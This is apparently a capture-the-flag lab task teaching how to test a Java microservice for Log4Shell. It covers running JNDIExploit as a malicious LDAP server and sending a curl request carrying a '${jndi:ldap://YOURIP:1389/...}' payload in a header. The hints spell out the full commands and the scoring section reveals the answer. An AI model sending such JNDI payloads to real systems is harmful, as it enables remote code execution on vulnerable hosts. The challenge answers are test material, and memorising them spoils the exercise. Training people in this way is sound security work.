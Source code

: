 # C1 - File Storage Security - Task 4: Preparing the Way 🔬

## DESCRIPTION

Looks like the attacker has been using JNDIExploit in your environment! That means they were likely trying to exploit log4j. That’s bad news, especially since you know the SudoSingles™ image optimization microservice is a Java program utilizing log4j.

You need to figure out if the "sudosingles-optimizer" service is vulnerable to the Log4Shell exploit. Now.

A quick and efficient way to figure out if you’re vulnerable is to try to do the exploit yourself. (Maybe not the most secure way, though, so don’t try this at home.)

## DETAILS

So, you're going to use JNDIExploit to see if "sudosingles-optimizer" is vulnerable. This challenge has many parts, so go through each one carefully.

If you’re not already aware, JNDIExploit is a tool that sets up a malicious LDAP server that can be used to execute arbitrary commands on a host running an application vulnerable to the Log4Shell exploit.

TLDR; you’re going to trick "sudosingles-optimizer" into connecting to a malicious server, so you can run whatever commands you want inside its container.

You have to set up the server first. To do this, do the following:

1. Open the Terminal Emulator application from the dock on the bottom.
2. Navigate to the "hacker" folder.
3. Find your private IP address on the LAN network. There are many ways to find your IP address on Linux – I'll leave this one to you. Just make sure you write it down. The IP you find should look something like "10.0.XX.XX"
4. Run the JNDIExploit-1.2-SNAPSHOT.jar file using Java, configuring it to start the malicious server listening on the private IP address you found in step 3.

If you see something like the below, you’re on the right track:

[+] LDAP Server Start Listening on 1389… 
[+] HTTP Server Start Listening on 9001… 

To test to make sure it’s running correctly, open another Terminal Emulator window and run the following command, where YOURIP is your local IP: 

curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'

To complete this challenge, after you run the above command, enter the last line generated in the Terminal Emulator window where JNDIExploit is running, and hit “Submit.” If your answer doesn’t submit, double-check all the above steps. It could mean that something is wrong with the server command.

## NOTES

For the answer, enter the whole line, exactly as it appears in your terminal.

The answer should look something like this (fill in the blanks): [+] _______ ______: ___ 

(I know it’s annoying, I just want to be sure you’ve set this up correctly, or things will be even more annoying later.)

## SCORING

[+] Response code: 200

## HINTS

### HINT 1

To find your IP address, you can run many commands in the Linux terminal. Maybe there’s some way to use the hostname command to get what you want?

If you’re having trouble with JNDIExploit, maybe try looking at the "-h" flag?

### HINT 2

The "hostname -I" command outputs your private IP address.

Running "java –jar JNDIExploit-1.2-SNAPSHOT.jar -i PRIVATEIPADDRESS" starts the server properly on your PRIVATEIPADDRESS.

Triple-check to make sure you’re using that IP address.

The answer is the whole last line from the Terminal Emulator window where you first ran the JNDIExploit program. Punctuation and all.

The answer isn't: "[+] Receive ClassRequest: SpringEchoTemplate.class"

### HINT 3

1. Open a Terminal Emulator window
2. Run "hostname -I" to get your IP address
3. Run "java –jar JNDIExploit-1.2-SNAPSHOT.jar -i YOURIP"
4. Open another window and run "curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'"
5. If you are successful, you should see a line that looks like the following show up in your original terminal window: "[+] Response code: 200"
